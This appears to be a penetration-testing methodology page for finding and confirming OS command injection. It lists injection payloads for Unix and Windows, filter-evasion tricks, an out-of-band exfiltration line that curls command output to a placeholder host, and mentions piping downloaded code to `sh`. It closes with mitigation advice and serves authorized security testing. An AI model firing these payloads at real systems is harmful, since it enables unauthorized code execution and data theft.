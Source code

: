 ### OS Command Injection Hunt Methodology

Use only with explicit authorization. This decision tree helps confirm command injection (reflected, blind, OOB), fingerprint the platform, and escalate impact safely.

---

## Decision tree: question-driven hunting

1) Where is user input executed server-side?
- Features commonly shelling out: ping/traceroute, image/video tools, PDF/ZIP utilities, backup/export, archivers, AI helpers calling CLI, system info pages.
- Identify input sinks: form fields, query params, headers (User-Agent, X-Forwarded-For), cookies, file names.

2) Initial probes (safe, reversible)
- Unix separators: `; id`, `| whoami`, `&& uname -a`.
- Windows separators: `& whoami`, `| ver`, `&& dir`.
- Observe: reflected output, error messages, or any side effects.

3) Blind detection
- Timing: `; sleep 5` (Unix), `& timeout /t 5` (Windows), or `ping -c 5 127.0.0.1` / `ping -n 5 127.0.0.1`.
- OOB: `nslookup x.{domain}` or `curl -s https://{domain}/p?d=$(whoami)` and watch collaborator.

4) Fingerprint platform and context
- OS: `whoami`, `uname -a` vs `ver`, `type C:\\Windows\\win.ini`.
- Privilege: `id`, `whoami /priv` (Windows via powershell/cmd).
- Shell/quoting: Does `$()`, backticks, or quotes work? Are spaces filtered (use `$IFS` or `{id,}`)?

5) Craft payloads per context
- Inline concatenation: separators from `Command Injections/wordlists/common-techniques.txt`.
- Subshells: `$(...)` / backticks; Windows: `powershell -c ...`.
- Redirection: capture to world-readable paths for later retrieval.
- Encoding/whitespace evasion: `%0a`, `%0d%0a`, `$IFS`, URL-encoding, double-encoding.

6) Confirm impact safely
- System info only first (`id; whoami; uname -a; pwd`).
- Avoid destructive commands. If demonstrating write, prefer temp paths.
- For OOB, exfil minimal identifiers only.

7) Scope for escalation (only if in-scope)
- Environment leverage: adjust `PATH`, leverage setuid binaries, sudo misconfigs.
- Data access: read config/keys; pivot to RCE via curl/wget + pipe to `sh` only if explicitly allowed.

---

## Quick payload mapping

- Reflected: `; id` → see output inline.
- Blind/time: `; sleep 5` (delay) or `ping -c 10 127.0.0.1`.
- OOB DNS/HTTP: `||nslookup x.{domain}||`, `; curl -s https://{domain}/p?d=$(whoami)`.
- Windows: `& whoami`, `& timeout /t 5`, `| type C:\\Windows\\win.ini`.
- No spaces: `$IFS-id`, `{id,}`.
- Subshell: `$(id)` or `` `id` ``.

---

## Reporting/mitigation

- Do not call shells; use safe library functions and parameterized APIs.
- Strict whitelisting/validation for any external command inputs.
- Drop privileges for the process; apply least privilege on files and network.
- Escape and validate arguments; avoid concatenation; use exec with argument arrays.
- Monitor and alert on anomalous child processes; restrict outbound egress.


